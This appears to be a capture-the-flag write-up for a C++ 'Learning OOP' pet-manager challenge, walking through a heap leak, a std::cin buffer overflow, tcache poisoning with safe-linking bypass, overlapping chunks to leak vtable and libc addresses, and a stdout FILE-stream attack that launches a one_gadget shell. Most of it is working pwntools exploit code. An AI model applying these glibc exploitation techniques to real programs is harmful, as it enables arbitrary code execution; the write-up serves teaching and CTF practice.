



# Learning OOP
## Description of the challenge
The challenge allow the user to create and manage pets. Pets are represented by C++ classes. Each time the user create a new pet the service allocate a new istance of the class using `new PetType`. The user can allocate up to 10 pet. Pets have an age and a fullness, when the age get bigger than `pet.get_max_age()` or the fullness goes to 0, the pet dies. When a pet die the service frees it using `delete pet`. The program run a loop which allow you to interact with your pets or to create a new one. Each iteration the function `update()` is called. This function age up the pets and decrement the fullness. The fullness can be set up to 20 by feeding the pet. On pet creation the user can set a name for the pet and this should not the change until the pet dies.

## Vtable leak
The vuln of the service are the following:
* Heap leak
* Heap overflow
The first one is due to the following code which run on each pet creation:
```c++
std::cout << "Adopted new pet: " << new_pet << std::endl; // TODO: fix
```
The second one is due to the use of `std::cin` on a C-like buffer. The Pet class implements the pet name in this way:
```c++
protected:
        char name[0x100];
        int age;
        int fullness;
        int status;
```
on pet creation the name is setted using the following method:
```c++
void set_name() {
            std::cout << "Enter name: " << std::endl;
            std::cin >> this->name;
        }
```
P.S. at class creation the name buffer is initialized with "A"
```c++
Animal() {
            memset(this->name, 0x41, sizeof(this->name));
            this->age = 0;
            this->fullness = 10;
            this->status = Status::FULL | Status::WELLRESTED;
        }
```

Using this overflow we can control all the properties of the class. Playing with the fullness it's possible control how they will be set free. Using this primitive we can prepare the tcache:
```py
tcache_pets = []
tcache_pets = Pet.adopt_from_fullnesses([3, 3, 1])
print_addr_list(tcache_pets, name="tcached")
play_pet(12)
```
In this code we allocate 3 pet, the first with fullness 3, same for the second and the third with fullness 1. Now the tcache looks like this:



We can allocate a pet, and from this overflow on the pet at the head of the tcache and poison its metadata (it's possibile to bypass safe linking using the free leak discussed in the previous section)
```py
payload = p32(0x0) + p64(0x121) + p64((tcache_pets[2] + DISPLACEMENT) ^ (tcache_pets[2] >> 12) )
tmp = Pet(fullness=0x3, overflow=payload, status=0x0)
print(f"Overflowing from: {hex(tmp.adopt())}")
```
The idea is to allocate a new pet inside an alredy active one. In this way the vtable of the inner pet is written inside the name file of the outer pet and we can leak it. The value I chose for DISPLACEMENT is 0x40, but all values which allocate the inner pet inside the name of the outer one are possible.

While allocating the inner pet is possible that the top chunk will be broken, so it will be necessary to fix it. By allocating the inner pet we also overwrite the age and the fullness of the outer one, so we need to be carefull to not kill the outer pet immediatly 
```py
spoofed_pets = []
outer_pet = Pet(name=b"B" * 0x100 ,fullness=0xff)
spoofed_pets.append(outer_pet.adopt())

payload = (p32(0x0) + p32(0x3)) * ((0x110 - DISPLACEMENT) // 8) + p64(0xd5e1)
payload = payload + b"B" * (0x100 - len(payload))
inner_pet = Pet(fullness=0x4, name=payload)
spoofed_pets.append(inner_pet.adopt())
```
Now we can leak the address of the vtable of the `inner_pet` by reading the name of `outer_pet`
```py
p.sendline(b"2")
p.recvuntil(b"0. BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
vtable_leak = p.recvline()[:-1]
vtableleak = int.from_bytes(vtable_leak, "little")
p.sendline(b"0")
p.recvuntil(b"> ")
```
Is important to maintain control over the pet used to do the overflow, so we can use it again in the future. When I used it to overflow i setted it's fullness such that it died in this moment so I can reallocate it.

## Libc leak
To leak the libc the attack we want to do is similar to the previous one. Before I start I want to recover the chunk used in the previous attack (we have only 10 allocations, it's better to not waste them). To do this we must fix the metadata of the inner pet before it dies. I setted the fullness of the outer pet such that it died in the last interaction, so we can reallocate it and write on the metadata of the inner. After this I let die all the pets.
```py
payload = b"D" * (DISPLACEMENT - 0x18) + (p64(0x0) + p64(0x121) + p64(vtable_leak))
pet_esterno = Pet(name = payload, fullness=0x2)
pet_esterno.adopt()

play_pet(12)
play_pet(12)
```
This is the actual state of the tcache:



It is possible to repeat the previous attack, but this time we want to allocate the overlapping chunks with `DISPLACEMENT = 0` (so they will be the same chunk).

Then we fill the tcache and let die one of the two instance of the overlapping chunk. So this chunk will go to the unsorted bins
```py
payload = p32(0x0) + p64(0x121) + p64(spoofed_pets[0] ^ (spoofed_pets[0] >> 12))
overflow_pet = Pet(fullness=0xe, overflow=payload)
overflow_pet.adopt()


overlapped = Pet(fullness=0xff)
s = overlapped.adopt()
print(f"First overlapping allocation: {hex(s)}")

overlapped = Pet(fullness=12 * 2)
s = overlapped.adopt()
print(f"Second overlapping allocation: {hex(s)}")

# Filling the tcache
Pet.adopt_from_fullnesses([6, 5, 4, 3, 2, 1])
for i in range(5):
    play_pet(12)
```
Be carefull that the overlapped per will be updated two times for interaction.

When one of the two istance get free, it's vtable got overwritten by metadata of the unsorted bins. So the living instance has an invalid vtable and the program will crush at the next `update()`. To avoid this we have to fix it with the next interaction, for this reason I chose the fullness of the pet used to overflow such that it is now at the head of the tcache. We can reallocate it and overflow on the broken vtable to fix it
```py
payload = p32(0x0) + p64(0x121) + p64(vtable_leak)[:-1]
overflow_pet = Pet(overflow=payload, fullness=0xff)
overflow_pet.adopt()
```
Now we are safe. We can leak the main arena from the overlapping chun like we did in the previous section
```py
p.sendline(b"2")
p.recvuntil(b"1. ")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak, "little")
libc_base = libc_leak - 0x203b20
print(f"Libc base: {hex(libc_base)}")
p.sendline(b"12")
p.recvuntil(b"> ")
```

## Spawn the shell
At this point we don't have other ways to leak, so we can't overwrite a return address to execute a ROP chain. It's possible to overwrite a vtable, but we have to spawn a shell with just one gadget. 



I tried debugging some call to the vtable and the constraints of the one_gadget seems to not be satisfied. We can't even control the arguments passed to this function because the only argument passed is the address of the calling object. So I decided to get control execution by exploiting file streams. Using the same attack of the previous sections I allocated an object on stdout and overwritten it in the following way:
```py
payload = p64(libc_base + ONE_GADGET_OFFSET)
buffer = Pet(fullness=0xff, name=payload)
buffer = buffer.adopt() + 0x8

tcache_pets = []
payload = b"\x00" * (0xb8) + b"-i\0"
a = Pet(fullness=3, name=payload)
tcache_pets.append(a.adopt())

...

wide_data = libc_base + STDOUT_OFFSET - 0x50
wide_vtable = buffer - 0x68

payload = flat(
    b"\x00" * (0x88),
    libc_base + 0x205710,                       # lock
    wide_vtable,                                # _wide_data->vtable
    b"\x00" * (0xa0 - 0x98),
    wide_data,                                  # _widea_data struct
    b"\x00" * (0xd8 - 0xa8),
    libc_base + WFILE_OVERFLOW_OFFSET - 0x38    # FILE->vtable
)
```
By the debugging this FILE stream exploit I noticed that rax point to an heap address. For this reason I did some strange allocation before writing on stdout. I did that allocations such that the address pointed by rax contains the string "-i\0". The last one_gadget I showed has as constraint that `{"/bin/sh", rax, NULL}` is a valid argv. By passing "-i" /bin/sh called with that argv will spawn an interactive shell. The other constraint are satisfied so I used that one_gadget.

To trigger this attack we don't have to do nothing. After we overwrite stdout at the next call to cout the function `fwrite()` will be called and that will trigger the attack spawning the shell.